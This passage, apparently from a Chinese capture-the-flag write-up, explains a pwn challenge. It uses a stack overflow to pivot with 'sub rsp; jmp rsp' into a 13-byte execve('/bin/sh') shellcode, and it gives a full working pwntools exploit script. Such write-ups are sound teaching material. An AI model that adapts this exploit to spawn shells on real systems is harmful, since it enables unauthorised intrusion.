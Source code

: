 这里实际上是跳过了前面4个nop空指令，至于为什么要用到4个空指令，其是因为执行完返回地址后rsp来到了距输入点9+8+8=0x19的位置，而此时的rip将执行sub rsp 0x15;执行完jmp rsp;后来到距输入点0x19-0x15=0x4的位置，即我们需要将前4个字节填充为空指令才能正确执行shellcode，接下来就只能将后续shellcode编写到17-4=13字节，就需要尽可能的缩短shellcode长度，凑巧的是按照如下编写

```
shellcode='''
nop;
nop;
nop;
nop;
mov al,0x3b;
mov edi,0x40203F;
mov esi,ebx;
mov edx,esi;
syscall;
'''
```

除去前面4个nop，后面长度刚好达到13字节，满足我们对shellcode的要求(这个地方还是需要不断尝试的)这里推荐一个汇编转机器语的网站

[汇编](https://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=mov+eax%2C0x3b&arch=x86-64&as_format=hex#assembly)

完整exp

```
from pwn import*
context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2104)
p=process('./pwn1')
elf=ELF('./pwn1')

bss=0x4040C0
read=0x401335
sub_rsp_x15=0x40136A
bin_sh=0x40203F

payload=b'a'*9+p64(bss)+p64(read)
p.recvuntil(b'welcome to PolarCTF Summer Games')
#gdb.attach(p)
p.sendline(payload)
#pause()

shellcode='''
nop;
nop;
nop;
nop;
mov al,0x3b;
mov edi,0x40203F;
mov esi,ecx;
mov edx,ecx;
syscall;
'''
shellcode=asm(shellcode)
print('shellcode>>',len(shellcode))
shellcode+=p64(sub_rsp_x15)
#gdb.attach(p)
p.sendline(shellcode)
#pause
p.interactive()
```

还有个需要注意的点是execve函数的第二三个参数要控制为0需要找到合适的寄存器，本地环境和远程略有不同，本地执行到shellcode时ecx为0(如上exp)，而远程则ebx为0，可能与所用虚拟机不容，不管怎样，[多尝试几个寄存器就好啦]()
